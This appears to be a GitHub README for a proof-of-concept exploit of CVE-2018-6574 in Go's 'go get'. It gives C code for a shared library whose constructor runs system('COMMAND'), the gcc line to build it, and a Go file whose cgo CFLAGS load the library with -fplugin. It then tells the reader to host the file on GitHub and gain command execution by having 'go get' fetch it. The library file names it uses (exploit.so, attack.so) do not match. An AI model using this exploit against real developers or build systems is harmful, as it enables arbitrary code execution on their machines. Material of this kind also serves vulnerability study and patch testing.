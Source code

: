 # CVE-2018-6574 POC

Exploit POC For CVE-2018-6574

## Compile

1. Create an exploit file with the following:
```c
#include<stdio.h>
#include<stdlib.h>

static void malicious() __attribute__((constructor));

void malicious() {
    system("COMMAND");
}
```
2. Compile it:
```bash
gcc -shared -o exploit.so -fPIC exploit.c
```
3. Finally, you need the go code that will tell cgo to use your plugin:
```go
package main
// #cgo CFLAGS: -fplugin=./attack.so
// typedef int (*intFunc) ();
//
// int
// bridge_int_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.fortytwo)
    fmt.Println(int(C.bridge_int_func(f)))
    // Output: 42
}
```
4. then host in a github and run it to gain command Execution:
```bash
go get github.com/your-repo/CVE-2018-6574-POC
```

## VERSION

- before 1.8.7
- before 1.9.4
- before Go 1.10rc2

## Refrences

- https://nvd.nist.gov/vuln/detail/CVE-2018-6574
- http://blog.nsfocus.net/cve-2018-6574/